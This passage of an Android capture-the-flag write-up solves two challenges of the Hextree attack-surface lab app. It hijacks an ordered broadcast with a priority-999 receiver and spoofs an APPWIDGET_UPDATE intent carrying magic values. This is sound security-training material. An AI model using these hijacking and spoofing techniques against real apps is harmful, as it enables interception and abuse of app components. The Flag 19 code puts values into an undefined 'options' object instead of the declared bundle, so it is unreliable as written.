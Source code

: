 This activity will send an ordered broadcast with action `"io.hextree.broadcast.FREE_FLAG"` and wait wait for a respond and when it get's the result an integer named `resultCode` is checked if it has non zero value , if true we get our flag  :0

#### Solution
so we need to create a receiver  with right action filter and `setResultCode` either ok or set a number 

```java
BroadcastReceiver hijacker = new BroadcastReceiver() {  
    @Override  
    public void onReceive(Context context, Intent intent) {  
        setResultCode(Activity.RESULT_OK);   
        setResultData("Intercepted!");
    }  
};
IntentFilter filter = new IntentFilter("io.hextree.broadcast.FREE_FLAG");  
filter.setPriority(999); // Make sure you run first if other apps sent broadcasts 
registerReceiver(hijacker, filter, null, null);
```

or just create  a one liner receiver

```java
registerReceiver(hijacker, new IntentFilter("io.hextree.broadcast.FREE_FLAG"));
```

### Flag 19
#### Code analysis
```java
    public void onReceive(Context context, Intent intent) {
        Bundle bundleExtra;
        String action = intent.getAction();
        if (action == null || !action.contains("APPWIDGET_UPDATE") || (bundleExtra = intent.getBundleExtra("appWidgetOptions")) == null) {
            return;
        }
        int i = bundleExtra.getInt("appWidgetMaxHeight", -1);
        int i2 = bundleExtra.getInt("appWidgetMinHeight", -1);
        if (i == 1094795585 && i2 == 322376503) {
            success(context);
        }
    }
```

Here the widget gets an intent from a broadcast and checks if there is an action `APPWIDGET_UPDATE` and is bundled with Extra data : i = `1094795585` & i2 = `322376503`

#### Solution
so we will create a `Bundle` object and supply it with data and set correct action  

```java
Intent intent  = new Intent();  
intent.setComponent(new ComponentName("io.hextree.attacksurface","io.hextree.attacksurface.receivers.Flag19Widget"  
));  
Bundle bundle = new Bundle();  
options.putInt("appWidgetMaxHeight", 1094795585);  
options.putInt("appWidgetMinHeight", 322376503);  
  
intent.putExtra("appWidgetOptions", bundle);  
intent.setAction("APPWIDGET_UPDATE");  
sendBroadcast(intent);
```
